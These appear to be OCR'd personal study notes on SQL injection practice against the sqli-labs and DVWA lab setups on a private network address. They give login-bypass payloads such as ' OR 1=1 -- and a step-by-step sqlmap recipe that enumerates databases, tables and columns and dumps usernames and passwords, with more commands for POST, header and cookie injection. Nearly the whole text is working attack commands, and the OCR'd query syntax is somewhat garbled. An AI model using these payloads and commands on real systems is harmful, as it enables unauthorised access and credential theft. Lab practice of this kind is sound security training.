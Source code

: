 select username ='value1'&password='value2' where someother part of query 

value1 = '   OR 1=1 -- 

select username =''   OR 1=1 -- 	'&password='value2' where someother part of query 


value1= 1' OR '1'='1

select username ='1' OR '1'='1	'&password='value2' where someother part of query 

Less-11 

---------------------------------------

SQLMAP GET Based 

python sqlmap.py -u "http://192.168.0.103/sqli-labs-master/Less-1/?id=1*" --batch --banner 


1. database list 

--dbs 

example 

python sqlmap.py -u "http://192.168.0.103/sqli-labs-master/Less-1/?id=1*" --batch --banner --dbs 

2. find tables of a database - dvwa 

-D DBNAME --tables 

example 
python sqlmap.py -u "http://192.168.0.103/sqli-labs-master/Less-1/?id=1*" --batch --banner -D dvwa --tables 


3. columns of any table - users 

-D DBNAME -T TBNAME --columns 

example : 
python sqlmap.py -u "http://192.168.0.103/sqli-labs-master/Less-1/?id=1*" --batch --banner -D dvwa -T users --columns 

4. data of these columns - user,first_name,password 

-D DBNAME -T TBNAME -C col1,col2,col3 --dump

example : 

python sqlmap.py -u "http://192.168.0.103/sqli-labs-master/Less-1/?id=1*" --batch --banner -D dvwa -T users -C user,first_name,password --dump


------------------------------------------
POST | Header | and Cookie based SQLI through SQLmap 

commands 

python sqlmap.py -r requestfile --batch --banner 

python sqlmap.py -r less11.txt --batch --banner

